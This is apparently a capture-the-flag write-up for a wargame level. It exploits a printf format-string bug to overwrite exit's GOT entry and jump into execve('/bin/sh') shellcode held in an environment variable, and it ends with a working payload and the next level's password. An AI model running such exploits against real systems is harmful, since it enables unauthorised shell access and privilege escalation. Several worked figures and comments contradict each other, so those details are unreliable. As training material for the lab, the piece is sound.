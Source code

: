 # Level05

## Setup

We find a binary file at the root of the user **`level05`** named *`./level05`*.

```bash
scp -r -P 4242 level05@<vm_ip>:/home/users/level05/level05 .
```

### Hex-Rays

We used the Hex-Rays output on the [Dogbolt website](https://dogbolt.org/).

## Source
```C
char s[100];
...
fgets(s, 100, stdin);
...
printf(s);
...
exit(0);
```
Unprotected printf alert ! exit is called after, we will redirect exit to a malicious shellcode

## bash
```bash
> python -c "print 'aaaaaaaa' + '%p '*30" | ./level05 
aaaaaaaa0x64 0xf7fcfac0 0xf7ec3add 0xffffd6df 0xffffd6de (nil) 0xffffffff 0xffffd764 0xf7fdb000 0x61616161 0x61616161 0x25207025 0x70252070 0x20702520
```
Our buffer is located at the 10th pointer using the %p exploit in printf, so we will overwrite at %10$n

## gdb
```bash
> disas exit

Dump of assembler code for function exit@plt:
0x08048370 <+0>:	jmp    *0x80497e0
0x08048376 <+6>:	push   $0x18
0x0804837b <+11>:	jmp    0x8048330
End of assembler dump.
```

We will modify exit got entry address content so that the program jumps into our malicious shell code:

```C
`char sc[] = "\x6a\x0b" // push byte +0xb`
	"\x58" // pop eax
	"\x99" // cdq
	"\x52" // push edx
	"\x68\x2f\x2f\x73\x68" // push dword 0x68732f2f
	"\x68\x2f\x62\x69\x6e" // push dword 0x6e69922f
	"\x89\xe3" // mov ebx, esp
	"\x31\xc9" // xor ecx, ecx
	"\xcd\x80"; // int 0x80
```
## bash
```bash
export SHELLCODE=$(python -c "print '\x90'*500 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'")
```

We had a difficult time finding the exact entrypoint to our shell code so we added a nopsled before

## gdb
```bash
> b main
> r
> x/200s environ
...
0xffffdd40:"SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\..."
> x/200c 0xffffdd40
0xffffdd40:	80 'P' 65  'A' 89  'Y' 76  'L' 79  'O' 65  'A' 68  'D' 48  '0'
0xffffdd48: 53  '5' 61  '=' -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220'
0xffffdd50: -112  '\220' -112  '\220' -112  '\220' -112  '\220' -112  '\220'	-112 '\220'	-112 '\220'	-112 '\220'
```
Let's take an address inside of our nopsled, 0xffffdd58

Now the issue is that ffffdd58 in decimal is a too big number, but thanks to the `h` printf modifier we will write `dd58` to `exit+2` and then `ffff` to `exit` instead of `ffffdd58` in one go: \
0xffffdd58 - 8 = ffffdd50 (minus 8 because we write our 2 addresses before) \
dd50 = 56656 \
ffff - dd58 = 8879	

## Payload
```bash
> python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%56656c" + "%10$hn" + "%8871c" + "%11$hn"' > /tmp/payload05
> cat /tmp/payload05 - | ./level05
> cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```